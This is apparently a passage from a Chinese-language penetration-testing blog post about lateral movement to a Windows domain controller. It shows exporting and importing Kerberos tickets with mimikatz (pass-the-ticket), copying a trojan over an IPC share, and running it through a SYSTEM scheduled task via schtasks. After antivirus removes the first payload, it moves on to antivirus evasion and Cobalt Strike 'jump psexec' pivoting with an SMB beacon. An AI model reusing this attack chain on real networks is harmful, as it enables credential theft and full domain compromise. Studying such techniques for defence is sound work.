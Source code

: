 查看票据,导出票据mimikatz kerberos::list

![](https://gitee.com/fuli009/images/raw/master/public/20220228133714.png)![](https://gitee.com/fuli009/images/raw/master/public/20220228133715.png)

拿着导出的其他域管TGT去导入本机

![](https://gitee.com/fuli009/images/raw/master/public/20220228133716.png)

Klist 查看当前本机已有的票据

![](https://gitee.com/fuli009/images/raw/master/public/20220228133717.png)

直接dir10.10.1.10域控c盘，可以访问到

![]()

这里想通过ipc管道执行命令来着，一直报服务没开启

![](https://gitee.com/fuli009/images/raw/master/public/20220228133718.png)

一顿尝试之后，准备使用copy文件和写计划任务上线，先在跳板机上传一个马到机器上，通过ipc管道copy到10.10.1.10域控机器上

![](https://gitee.com/fuli009/images/raw/master/public/20220228133719.png)

通过ipc管道添加计划任务，有时候因为安全配置不允许直接添加任务，要在后面添加账号密码 /U 账号 /P 密码

    
    
    schtasks /create /s 目标ip /tn 计划任务名称 /sc onstart /tr 对方目录 /ru system /f  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220228133721.png)

执行计划任务,同样，如果有安全配置一样在后面添加密码就可以

    
    
    schtasks /run /tn test /s IP  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220228133722.png)

删除计划任务

![](https://gitee.com/fuli009/images/raw/master/public/20220228133727.png)

第一次是马被杀了。。一直没反应过来，还等了半天。。后面重新做免杀、添加计划任务、执行，还是没连接过来，想了一下可能是目标不出网，因为已经建立了ipc管道，想了想直接用smb的beacon正向连接，普通的psexec不太行，换了powershell版本就可以了。

    
    
    jump psexec64 10.10.1.10 smb  //这里的smb是smb的Listeners  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220228133731.png)

    
    
    jump psexec_psh 10.10.1.10 smb  
    
